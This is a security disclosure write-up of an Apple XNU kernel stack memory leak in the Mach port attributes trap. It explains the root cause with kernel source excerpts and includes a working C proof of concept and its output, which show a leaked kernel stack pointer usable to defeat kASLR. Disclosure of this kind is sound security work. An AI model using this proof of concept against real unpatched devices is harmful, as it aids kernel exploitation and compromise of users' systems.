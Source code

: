 ```yaml
---
layout: default
author: juwei lin
date: 2019-02-02 10:16:00 +0800
---
```


# Apple XNU Stack Memroy Leak 

## Overview
This is a kernel stack memory leak issue. This issue exists in function `_kernelrpc_mach_port_get_attributes_trap`.  

## Root Cause Analysis
In function `_kernelrpc_mach_port_get_attributes_trap`:  
```
int
_kernelrpc_mach_port_get_attributes_trap(struct _kernelrpc_mach_port_get_attributes_args *args)
{
    ...

    typeof(MACH_PORT_INFO_OUT[0]) info[max_count];  ---(1.a)

    ...

    rv = mach_port_get_attributes(task->itk_space, args->name, args->flavor, info, &count);
	if (rv == KERN_SUCCESS)
		rv = copyout(&count, CAST_USER_ADDR_T(args->count), sizeof(count));
	if (rv == KERN_SUCCESS && count > 0)
		rv = copyout(info, CAST_USER_ADDR_T(args->info), count * sizeof(info[0]));  ---(1.b)


}
```
At location 1.a, info is a local variable without initialization, max_count here is 17. At location 1.b, info is copied out back to user supplied buffer with size count * sizeof(info[0]).  

The issue here is that the value of `count` here can be 17 but `info` is just 11 count filled leaving the rest 6 count info entry leaked. Let's see the cause in function `mach_port_get_attributes`:   

```
kern_return_t
mach_port_get_attributes(
	ipc_space_t		space,
	mach_port_name_t	name,
	int			flavor,
        mach_port_info_t	info,
        mach_msg_type_number_t	*count)
{
    ...

    case MACH_PORT_INFO_EXT: {
		mach_port_info_ext_t *mp_info = (mach_port_info_ext_t *)info;   ---(2.a)
		if (*count < MACH_PORT_INFO_EXT_COUNT)
			return KERN_FAILURE;
			
		if (!MACH_PORT_VALID(name))
			return KERN_INVALID_RIGHT;
		
		kr = ipc_port_translate_receive(space, name, &port);
		if (kr != KERN_SUCCESS)
			return kr;
		/* port is locked and active */
		mach_port_get_status_helper(port, &mp_info->mpie_status);   ---(2.b)
		mp_info->mpie_boost_cnt = port->ip_impcount;    ---(2.c)
		*count = MACH_PORT_INFO_EXT_COUNT;  ---(2.d)
		ip_unlock(port);
		break;
	}

    ...
}
```

At 2.a, info is casted to structure `mach_port_info_ext_t`:  
```
typedef struct mach_port_info_ext {
	mach_port_status_t	mpie_status;
	mach_port_msgcount_t	mpie_boost_cnt;
	uint32_t		reserved[6];
} mach_port_info_ext_t;
```
At 2.b and 2.c, mpie_status and mpie_boost_cnt is set, at 2.d, count is set to MACH_PORT_INFO_EXT_COUNT(17). 17 here means 17 * sizeof(info[0]) bytes of info will be copyout back to user buffer, but mpie_status and mpie_boost_cnt total size is only 11 * sizeof(info[0]), it leaks the rest 6 count to user space.  
  
The leaked 6 count value includes an ebp register value. See the output of poc:  
```
kr: 0x0 count:17
i:0 0
i:1 0
i:2 1
i:3 5
i:4 0
i:5 0
i:6 1
i:7 0
i:8 0
i:9 0
i:10 0
i:11 ffffff80
i:12 28
i:13 0
i:14 25fb34e8
i:15 ffffff80
i:16 2a933ef0
```
The 15th and 16th value combination is always the current stack ebp value. Here is 0xffffff802a933ef0.  
If attacker can read (0xffffff802a933ef0+8) which is the function return address, it can defeat kASLR.  

## PoC Code
```
#include <iostream>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <mach/mach_port.h>
#include <mach/mach_init.h>
#include <mach/mach.h>
#include <mach/mach_vm.h>
#include <mach/mach_traps.h>
#include <mach/mach_interface.h>


void poc() {
    int port_info[17]={0};
    mach_msg_type_number_t count = 17;
    mach_port_name_t port;
    kern_return_t kr;
    
    mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &port);
    mach_port_insert_right(mach_task_self(), port, port, MACH_MSG_TYPE_MAKE_SEND);
    
    kr = mach_port_get_attributes(mach_task_self(),port,7,port_info, &count);
    printf("kr: 0x%x count:%d\n", kr, count);
    
    for (int i=0; i<17; i++) {
        printf("i:%d %x\n", i, port_info[i]);
    }
    
}


int main(int argc, const char * argv[]) {
    poc();
    return 0;
}

```

## Q & A

### How did you find this vulnerability?
by code audit.

### Can you identify exploitability?
This is a **stack memory leak** vulnerability. It can help bypass kASLR.

### Can you identify root cause?
Yes, see the root cause analysis.

### Vulnerable software and hardware
macOS 10.14.3 and all before
iOS 12.1.3 and all before